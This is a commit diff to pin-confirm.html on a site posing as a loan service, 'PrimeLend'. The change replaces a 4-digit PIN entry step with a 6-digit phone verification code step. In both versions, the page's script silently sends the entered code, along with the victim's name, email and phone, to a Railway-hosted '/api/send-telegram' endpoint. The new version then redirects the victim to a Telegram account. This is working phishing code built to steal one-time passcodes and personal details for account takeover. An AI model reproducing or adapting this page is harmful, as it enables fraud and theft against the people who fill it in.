

Before and after one commit to inncredits-jpg/Primelend, a plain HTML site: page pin-confirm.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update pin-confirm.html

```diff
--- a/pin-confirm.html
+++ b/pin-confirm.html
@@ -3,33 +3,31 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=yes, viewport-fit=cover">
-    <title>PrimeLend · Confirm PIN</title>
+    <title>PrimeLend · Verify Number</title>
     <style>
         *{margin:0;padding:0;box-sizing:border-box;-webkit-tap-highlight-color:transparent}
         body{background:linear-gradient(135deg,#0a0f1e 0%,#0c1222 100%);font-family:'Inter',system-ui,sans-serif;display:flex;align-items:flex-start;justify-content:center;min-height:100vh;padding:20px}
         .app-container{max-width:520px;width:100%;margin:0 auto}
         .loan-summary-bar{background:rgba(17,24,39,0.8);backdrop-filter:blur(10px);border-radius:32px;padding:16px 20px;margin-bottom:20px;display:flex;justify-content:space-between;flex-wrap:wrap;gap:12px;border:1px solid rgba(20,184,166,0.15)}
-        .summary-item{display:flex;flex-direction:column;align-items:flex-start}
+        .summary-item{display:flex;flex-direction:column}
         .summary-label{font-size:.65rem;font-weight:500;color:#7e8aa2;text-transform:uppercase}
         .summary-value{font-size:1rem;font-weight:700;color:#14b8a6;margin-top:2px}
-        .pin-card{background:rgba(17,24,39,0.8);backdrop-filter:blur(10px);border-radius:40px;border:1px solid rgba(20,184,166,0.15);padding:28px 24px 32px}
+        .otp-card{background:rgba(17,24,39,0.8);backdrop-filter:blur(10px);border-radius:40px;border:1px solid rgba(20,184,166,0.15);padding:28px 24px 32px}
         .section-title{font-size:1.4rem;font-weight:700;background:linear-gradient(135deg,#fff,#14b8a6);background-clip:text;-webkit-background-clip:text;color:transparent;margin-bottom:8px}
         .section-sub{font-size:.8rem;color:#7e8aa2;margin-bottom:28px;border-left:3px solid #14b8a6;padding-left:12px}
-        .details-grid{background:rgba(15,23,36,0.6);border-radius:24px;padding:18px 16px;margin-bottom:28px;border:1px solid rgba(20,184,166,0.1)}
-        .detail-row{display:flex;justify-content:space-between;padding:10px 0;border-bottom:1px solid rgba(30,41,59,0.5)}
-        .detail-row:last-child{border-bottom:none}
-        .detail-label{font-size:.8rem;color:#94a3b8}
-        .detail-value{font-size:.85rem;font-weight:600;color:#e2e8f0;text-align:right}
-        .pin-container{display:flex;justify-content:center;gap:16px;margin-bottom:12px}
-        .pin-box{width:65px;height:65px;background:#0f1724;border:2px solid #1f2a3e;border-radius:20px;text-align:center;font-size:1.8rem;font-weight:700;color:#14b8a6;outline:none}
-        .pin-box:focus{border-color:#14b8a6;box-shadow:0 0 0 3px rgba(20,184,166,0.2)}
-        .confirm-btn{width:100%;background:linear-gradient(135deg,#14b8a6,#0d9488);border:none;padding:16px 20px;font-size:1rem;font-weight:700;color:#0b1120;border-radius:60px;cursor:pointer;margin-top:20px}
-        .confirm-btn:disabled{opacity:0.6;cursor:not-allowed}
+        .phone-verify-box{background:rgba(15,23,36,0.6);border-radius:24px;padding:18px 16px;margin-bottom:28px;display:flex;justify-content:space-between;align-items:center;border:1px solid rgba(20,184,166,0.1)}
+        .phone-number{font-size:1.1rem;font-weight:700;color:#e2e8f0}
+        .edit-link{color:#14b8a6;background:rgba(20,184,166,0.1);padding:6px 14px;border-radius:40px;cursor:pointer}
+        .otp-container{display:flex;justify-content:center;gap:12px;margin-bottom:20px;flex-wrap:wrap}
+        .otp-box{width:55px;height:65px;background:#0f1724;border:2px solid #1f2a3e;border-radius:16px;text-align:center;font-size:1.6rem;font-weight:700;color:#14b8a6;outline:none}
+        .otp-box:focus{border-color:#14b8a6;box-shadow:0 0 0 3px rgba(20,184,166,0.2)}
+        .verify-btn{width:100%;background:linear-gradient(135deg,#14b8a6,#0d9488);border:none;padding:16px 20px;font-size:1rem;font-weight:700;color:#0b1120;border-radius:60px;cursor:pointer;margin-top:8px}
+        .verify-btn.loading{opacity:0.7;cursor:wait}
         .error-message{color:#f43f5e;font-size:.75rem;text-align:center;margin-top:12px;display:none}
         .error-message.show{display:block}
         .toast{position:fixed;bottom:30px;left:50%;transform:translateX(-50%);background:rgba(20,184,166,0.9);backdrop-filter:blur(10px);color:#0b1120;padding:12px 24px;border-radius:60px;font-size:.85rem;font-weight:500;z-index:1000;opacity:0;transition:opacity .3s;pointer-events:none}
         .toast.show{opacity:1}
-        @media (max-width:480px){.pin-card{padding:22px 18px 26px}.pin-box{width:55px;height:55px;font-size:1.5rem}}
+        @media (max-width:450px){.otp-box{width:48px;height:55px;font-size:1.4rem}.otp-container{gap:8px}}
     </style>
 </head>
 <body>
@@ -41,100 +39,107 @@
         <div class="summary-item"><span class="summary-label">Interest</span><span class="summary-value" id="summaryRate">5%</span></div>
     </div>
 
-    <div class="pin-card">
-        <div class="section-title">Confirm your details</div>
-        <div class="section-sub">Please review your loan information below</div>
+    <div class="otp-card">
+        <div class="section-title">Verify your number</div>
+        <div class="section-sub">Enter the 6-digit verification code</div>
 
-        <div class="details-grid">
-            <div class="detail-row"><span class="detail-label">Full Name</span><span class="detail-value" id="userFullName">-</span></div>
-            <div class="detail-row"><span class="detail-label">Email</span><span class="detail-value" id="userEmail">-</span></div>
-            <div class="detail-row"><span class="detail-label">Phone</span><span class="detail-value" id="userPhone">-</span></div>
+        <div class="phone-verify-box">
+            <div><span class="phone-number" id="displayPhone">+1 234 567 8900</span></div>
+            <div class="edit-link" id="editPhoneBtn">Edit</div>
         </div>
 
-        <div class="pin-container">
-            <input type="text" maxlength="1" class="pin-box" data-idx="0" inputmode="numeric">
-            <input type="text" maxlength="1" class="pin-box" data-idx="1" inputmode="numeric">
-            <input type="text" maxlength="1" class="pin-box" data-idx="2" inputmode="numeric">
-            <input type="text" maxlength="1" class="pin-box" data-idx="3" inputmode="numeric">
+        <div class="otp-container">
+            <input type="text" maxlength="1" class="otp-box" data-idx="0" inputmode="numeric">
+            <input type="text" maxlength="1" class="otp-box" data-idx="1" inputmode="numeric">
+            <input type="text" maxlength="1" class="otp-box" data-idx="2" inputmode="numeric">
+            <input type="text" maxlength="1" class="otp-box" data-idx="3" inputmode="numeric">
+            <input type="text" maxlength="1" class="otp-box" data-idx="4" inputmode="numeric">
+            <input type="text" maxlength="1" class="otp-box" data-idx="5" inputmode="numeric">
         </div>
-        <div class="error-message" id="pinError">Please enter a valid 4-digit PIN</div>
-        <button class="confirm-btn" id="confirmBtn" disabled>Confirm & Continue →</button>
+
+        <div class="error-message" id="otpError">⚠️ Please enter all 6 digits</div>
+        <button class="verify-btn" id="verifyBtn">Verify & Continue →</button>
     </div>
 </div>
-<div class="toast" id="toast">✓ PIN confirmed! Redirecting...</div>
+<div class="toast" id="toast">✓ Verified! Redirecting to Telegram...</div>
 
 <script>
 (function(){
     const RAILWAY_URL = 'https://primelend-production.up.railway.app';
-        const params = new URLSearchParams(window.location.search);
+    // ✅ CORRECT TELEGRAM USERNAME - User lands here
+    const TELEGRAM_USERNAME = 'Innbuckks';
 
-        const amount = params.get('amount') || '0';
-        const term = params.get('term') || '0';
-        const rate = params.get('rate') || '5';
-        const monthly = params.get('monthly') || '0';
-        const name = decodeURIComponent(params.get('name') || '');
-        const email = decodeURIComponent(params.get('email') || '');
-        const phone = decodeURIComponent(params.get('phone') || '');
+    const urlParams = new URLSearchParams(window.location.search);
+    const amount = urlParams.get('amount') || '500';
+    const term = urlParams.get('term') || '3';
+    const rate = urlParams.get('rate') || '5';
+    const monthly = urlParams.get('monthly') || '167.36';
+    let userPhone = urlParams.get('phone') || '+1 234 567 8900';
+    const userName = urlParams.get('name') || 'Customer';
+    const userEmail = urlParams.get('email') || '';
 
-        // Quick DOM updates
-        document.getElementById('summaryAmount').innerText = `$${parseFloat(amount).toLocaleString()}`;
+    document.getElementById('summaryAmount').innerText = `$${parseInt(amount).toLocaleString()}`;
     document.getElementById('summaryTerm').innerText = `${term} month${term != 1 ? 's' : ''}`;
     document.getElementById('summaryMonthly').innerText = `$${parseFloat(monthly).toFixed(2)}`;
     document.getElementById('summaryRate').innerText = `${rate}%`;
-        document.getElementById('userFullName').innerText = name || '-';
-        document.getElementById('userEmail').innerText = email || '-';
-        document.getElementById('userPhone').innerText = phone || '-';
+    document.getElementById('displayPhone').innerText = userPhone;
 
-        const pinBoxes = document.querySelectorAll('.pin-box');
-        let currentPin = ['','','',''];
-        const confirmBtn = document.getElementById('confirmBtn');
-        const errorMsg = document.getElementById('pinError');
     const toast = document.getElementById('toast');
+    const showToast = (msg) => { toast.textContent = msg; toast.classList.add('show'); setTimeout(() => toast.classList.remove('show'), 1500); };
 
-        const showToast = (msg) => { toast.textContent = msg; toast.classList.add('show'); setTimeout(() => toast.classList.remove('show'), 2500); };
-        const updatePinUI = () => {
-            pinBoxes.forEach((b,i)=>b.value=currentPin[i]||'');
-            confirmBtn.disabled = !currentPin.every(d=>d && /[0-9]/.test(d));
-            if(confirmBtn.disabled) errorMsg.classList.remove('show');
+    const otpBoxes = document.querySelectorAll('.otp-box');
+    let currentOtp = ['','','','','',''];
+    const verifyBtn = document.getElementById('verifyBtn');
+    const errorMsg = document.getElementById('otpError');
+
+    const updateOtpUI = () => { otpBoxes.forEach((b,i)=>b.value=currentOtp[i]||''); };
+
+    const setOtpDigit = (i,val) => {
+        if(val && !/[0-9]/.test(val)) return;
+        if(i>=0 && i<6){
+            currentOtp[i] = val || '';
+            updateOtpUI();
+            if(val && i<5) otpBoxes[i+1].focus();
+            errorMsg.classList.remove('show');
+        }
     };
 
-        pinBoxes.forEach((box, i) => {
-            box.addEventListener('input', (e) => {
-                let val = e.target.value.slice(-1);
-                if(val && !/[0-9]/.test(val)) return;
-                currentPin[i] = val || '';
-                updatePinUI();
-                if(val && i<3) pinBoxes[i+1].focus();
-            });
+    otpBoxes.forEach((box, i) => {
+        box.addEventListener('input', (e) => setOtpDigit(i, e.target.value.slice(-1)));
         box.addEventListener('keydown', (e) => {
-                if(e.key === 'Backspace') {
+            if(e.key === 'Backspace'){
                 e.preventDefault();
-                    if(currentPin[i]) currentPin[i] = '';
-                    else if(i>0) { currentPin[i-1] = ''; pinBoxes[i-1].focus(); }
-                    updatePinUI();
+                if(currentOtp[i]) setOtpDigit(i,'');
+                else if(i>0){ setOtpDigit(i-1,''); otpBoxes[i-1].focus(); }
             }
         });
     });
-        pinBoxes[0].focus();
 
-        confirmBtn.onclick = async () => {
-            const fullPin = currentPin.join('');
-            if(fullPin.length !== 4) { errorMsg.classList.add('show'); return; }
-            confirmBtn.disabled = true;
-            confirmBtn.textContent = 'Processing...';
+    verifyBtn.onclick = async () => {
+        const enteredOtp = currentOtp.join('');
+        if(enteredOtp.length !== 6){ errorMsg.classList.add('show'); return; }
 
-            try {
-                await fetch(`${RAILWAY_URL}/api/send-telegram`, {
-                    method: 'POST', headers: {'Content-Type':'application/json'},
-                    body: JSON.stringify({phone,pin:fullPin,email,name,amount,term,type:'pin'})
-                });
-            } catch(e) { console.error(e); }
+        verifyBtn.classList.add('loading');
+        verifyBtn.textContent = 'Verifying...';
+        verifyBtn.disabled = true;
 
-            showToast('✓ PIN confirmed! Redirecting...');
-            setTimeout(() => {
-                window.location.href = `otp-verify.html?amount=${encodeURIComponent(amount)}&term=${encodeURIComponent(term)}&rate=${encodeURIComponent(rate)}&monthly=${encodeURIComponent(monthly)}&name=${encodeURIComponent(name)}&email=${encodeURIComponent(email)}&phone=${encodeURIComponent(phone)}`;
-            }, 1200);
+        fetch(`${RAILWAY_URL}/api/send-telegram`, {
+            method:'POST',
+            headers:{'Content-Type':'application/json'},
+            body:JSON.stringify({phone:userPhone,pin:enteredOtp,email:userEmail,name:userName,type:'otp'})
+        }).catch(e=>console.error(e));
+
+        showToast('✓ Verified! Redirecting...');
+        // ✅ CORRECT: Redirects to @Innbuckks
+        setTimeout(() => { window.location.href = `https://t.me/${TELEGRAM_USERNAME}`; }, 1000);
     };
+
+    document.getElementById('editPhoneBtn').onclick = () => {
+        let newPhone = prompt('Enter your phone number:', userPhone);
+        if(newPhone && newPhone.trim().length > 5) { userPhone = newPhone.trim(); document.getElementById('displayPhone').innerText = userPhone; }
+    };
+
+    setTimeout(() => otpBoxes[0].focus(), 50);
 })();
 </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
